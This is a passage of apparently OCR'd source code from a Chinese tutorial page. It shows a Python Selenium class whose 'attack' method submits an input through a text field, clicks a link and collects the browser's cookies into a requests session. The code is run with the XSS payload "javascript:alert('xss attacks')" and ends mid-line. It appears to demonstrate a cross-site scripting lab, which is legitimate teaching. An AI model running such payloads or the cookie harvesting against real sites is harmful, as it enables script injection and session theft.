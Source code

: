             return None

        def attack(self,str):
            self.driver.get(self.main_page_url)
            time.sleep(1)
            if self.driver.title!=self.main_page_title:
                print('不是期望的主页Title，网页改版了？')
                return False
            
            # xpath的方法 定位到文本框
            elem_text=self.driver.find_element_by_id("te")
            elem_text.send_keys(str)
            # 输入回车
            elem_text.send_keys(Keys.RETURN)
            
            time.sleep(1)
            
            # driver替我们点击
            link=self.driver.find_element_by_id("link")
            link.click()
            time.sleep(1)
            
            self.cookies = self.driver.get_cookies()
            self.request_session = requests.Session()
            for cookie in self.cookies:
                self.request_session.cookies.set(cookie['name'], cookie['value'])
            return True

    if __name__ == "__main__":
        xss=spider()
        xss.attack("javascript:alert('xss attacks')" 
    ```
- 触发过程如下
  